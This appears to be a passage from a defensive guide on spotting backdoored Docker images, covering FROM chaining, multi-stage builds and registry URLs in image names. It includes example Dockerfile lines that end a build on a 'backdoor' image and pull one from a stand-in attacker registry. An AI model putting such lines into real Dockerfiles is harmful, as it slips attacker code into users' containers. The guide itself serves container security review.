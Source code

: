 
### The `FROM` statement
Usually one of the top most statements of a `Dockerfile`.  It is used to instruct docker to use another image as a base. Any following commands within the `Dockerfile` will be executed as if they were run from within a container of the imported image.

In general it is always a good idea to look for the `FROM` statements and trace them back on docker hub to see if they use official images or not. Some of the  tricks that can be found in `FROM` statements follows.

#### `FROM` Chaining
Another trick that I've seen be used is what I call the _FROM chaining_. This is for images that depend on another, that in turn depend on other etc. etc. All the images seem clean but somewhere in the midst of all those images there's the one that adds the backdoored bash or whatever.


#### Multi-stage builds
A `Dockerfile` can have more than one `FROM` statements. Import from a legitimate image, perform some tasks to confuse user and import a malicious image last to be executed.

```Dockerfile
FROM debian
RUN apt-get install curl bash
...
FROM backdoor
```

Although the image started with `FROM debian` it will end up running whatever `FROM backdoor` image has.

#### Image with URL as part of name
_NOTE_: This needs further clarifications, particularly under what conditions docker will actualy fetch the image.

One of the things that `docker` will do for you is to parse as URL the image name. This means that the following statement is valid
```Dockerfile
FROM badregistry.attacker.io/repo/backdoor:latest
```

Upon building this image docker will connect to `badregistry.attacker.io` and attempt to fetch the image `repo/backdoor` and use this as a base for the container.



#### Unicode `FROM` image
This is mostly theoretical to be honest as docker fails to to use any image with non basic ascii characters. However, I have not researched this extensively, so using some unicode characters may still be possible.

It is here mostly for completeness (or in case i want to research this again in the future).

* [IDN homograph attack](https://en.wikipedia.org/wiki/IDN_homograph_attack)
* [Unicode Bidirectional Text Spoofing](http://unicode.org/reports/tr36/tr36-8.html#Bidirectional_Text_Spoofing)

### The RUN statement
Before i use a container i like to examine the what it runs on build time. I usually trace the all the `RUN` statements from the `Dockerfile`. Check for any out-of-ordinary commands being executed, any downloads that shouldn't be there etc.
